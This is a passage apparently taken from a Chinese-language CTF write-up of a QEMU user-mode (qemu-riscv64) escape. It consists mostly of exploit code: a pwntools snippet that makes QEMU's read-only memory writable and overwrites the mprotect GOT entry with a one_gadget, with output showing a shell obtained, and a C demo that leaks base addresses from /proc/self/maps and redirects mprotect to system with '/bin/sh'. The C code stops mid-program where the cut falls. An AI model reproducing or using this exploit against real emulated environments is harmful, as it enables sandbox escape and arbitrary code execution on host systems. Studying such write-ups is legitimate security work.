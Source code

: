 ```python
mprotect_got   = qemu_base + 0x7171C0
ro_memory      = qemu_base + 0x6b7000
ro_length      = 0x0061000

mprotect(ro_memory,ro_length,6)
write(mprotect_got,one_gadget)
mprotect(ro_memory,ro_length,6)
io.interactive()
```

```c
$ python3 exp.py 
[+] Starting local process '/usr/local/bin/qemu-riscv64': pid 94944
[+] 0x56521a9a9000
[+] 0x7f94c9000000
[*] Switching to interactive mode
0x56521b060000,61000,6
$ ls
core          qemu-riscv64    qemu-riscv64.id2  test         testmips
exp.py          qemu-riscv64.id0    qemu-riscv64.nam  test.c
libc-2.31.so  qemu-riscv64.id1    qemu-riscv64.til  testaarch
```

###### c代码零交互demo

继续构造，一气呵成（one_gadget不能用，转而采用system）：

```c
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <string.h>

long long * get_addr(char * pattern){
    char buf [0x1000] = {0};
    read(openat(0,"/./proc/self/maps",0),buf,0x1000);

    char * tmp = strtok(buf, "\n");
    while (tmp)
    {   
        if(strstr(tmp,pattern)){
            *(tmp + 12) = 0;
            long long * leak_addr;
            sscanf(tmp,"%p",&leak_addr);
            return leak_addr;
        }
        tmp = strtok(NULL, "\n");
    }
}

int main(){
    long long * libc_base     =   get_addr("/usr/lib/x86_64-linux-gnu/libc-");
    long long * qemu_base     =   get_addr("/usr/local/bin/qemu-riscv64");
    
    long long * libc_system   =   libc_base + 0x055410/8;
    long long * mprotect_got  =   qemu_base + 0x7171c0/8;
    long long * ro_memory     =   qemu_base + 0x6b7000/8;

    mprotect(ro_memory,0x0061000,6);

    * mprotect_got = (long long)  libc_system;
    * ro_memory    = (long long)  0x68732f6e69622f;

    mprotect(ro_memory,0x0061000,6);
```